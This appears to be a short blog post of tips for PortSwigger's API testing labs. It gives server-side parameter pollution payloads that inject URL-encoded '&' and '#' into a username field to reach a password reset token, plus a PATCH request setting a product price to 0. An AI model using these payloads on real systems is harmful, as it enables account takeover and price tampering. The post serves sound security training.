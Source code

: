 ```yaml
---
layout: single
title: API testing - PortSwigger
excerpt: "All API testing labs of PortSwigger."
date: 2025-10-04
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - API
---
```



## TIPS

- Parameter Pollution

```http
- DETECT PARAMETER POLLUTION-

username=administrator%26testing   -> URL-Encode &

- COMMENT QUERY -
  
username=administrator%23     -> URL-Encode #

- FIND HIDDEN PARAMETERS -
  
username=administrator%26field=FUZZ%23   -> Send to Intruder (Server-side variables name)

- GET RESET TOKEN -
  
username=administrator%26field=reset_token%23   -> Find reset_token parameter in JS file
```

- Hidden method `Change METHOD`

```http
PATCH /api/products/1/price HTTP/2

Content-Type: application/json
Content-Length: 22

{
	"price" : 0
}
```
